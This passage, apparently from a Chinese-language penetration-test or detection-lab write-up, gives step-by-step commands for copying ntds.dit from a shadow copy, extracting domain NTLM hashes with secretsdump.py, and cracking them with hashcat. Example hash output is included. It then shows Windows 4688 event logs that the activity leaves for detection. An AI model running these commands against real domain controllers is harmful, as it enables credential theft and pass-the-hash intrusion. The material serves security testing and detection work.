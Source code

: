 4. **复制NTDS.dit**：
   ```cmd
   copy C:\$SNAP_201212082315_VOLUMEC$\windows\NTDS\ntds.dit C:\Temp\ntds.dit
   ```
   - 调整`VOLUMEC`为实际卷影副本名称（可通过`dir`查看）。

5. **卸载和删除快照**：
   ```cmd
   ntdsutil snapshot "unmount {a1b2c3d4-e5f6-4a7b-8c9d-0e1f2a3b4c5d}" quit quit
   ntdsutil snapshot "delete {a1b2c3d4-e5f6-4a7b-8c9d-0e1f2a3b4c5d}" quit quit
   ```

6. **提取哈希**：
   使用Secretsdump：
   ```bash
   secretsdump.py -ntds C:\Temp\ntds.dit -system C:\Windows\System32\config\SYSTEM LOCAL
   ```
   - 示例输出：
     ```
     Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
     user1:1001:aad3b435b51404eeaad3b435b51404ee:a2345375a47a92754e2505132aca194b:::
     ```

7. **破解哈希**：
   使用Hashcat：
   ```bash
   hashcat -m 1000 -a 0 ntlm_hashes.txt wordlist.txt
   ```

8. **结果分析**：
   - 成功：提取域用户哈希，可用于密码破解或传递哈希攻击。
   - 失败可能：
     - 权限不足。
     - 快照创建失败（需检查VSS服务）。
     - 文件路径错误。


![ntds1](https://s2.ax1x.com/2019/12/26/lAeIM9.png)

![ntds2](https://s2.ax1x.com/2019/12/26/lAeOPO.png)

## 测试留痕

### Windows安全日志
- 事件ID4688：
  ```
  进程信息:
    新进程ID:0x1234
    新进程名称:C:\Windows\System32\ntdsutil.exe
    命令行:ntdsutil snapshot "activate instance ntds" create quit quit
    创建者进程名称:C:\Windows\System32\cmd.exe
  ```
  ```
  进程信息:
    新进程ID:0x5678
    新进程名称:C:\Windows\System32\ntdsutil.exe
    命令行:ntdsutil snapshot "mount {a1b2c3d4-e5f6-4a7b-8c9d-0e1f2a3b4c5d}" quit quit
    创建者进程名称:C:\Windows\System32\cmd.exe
  ```
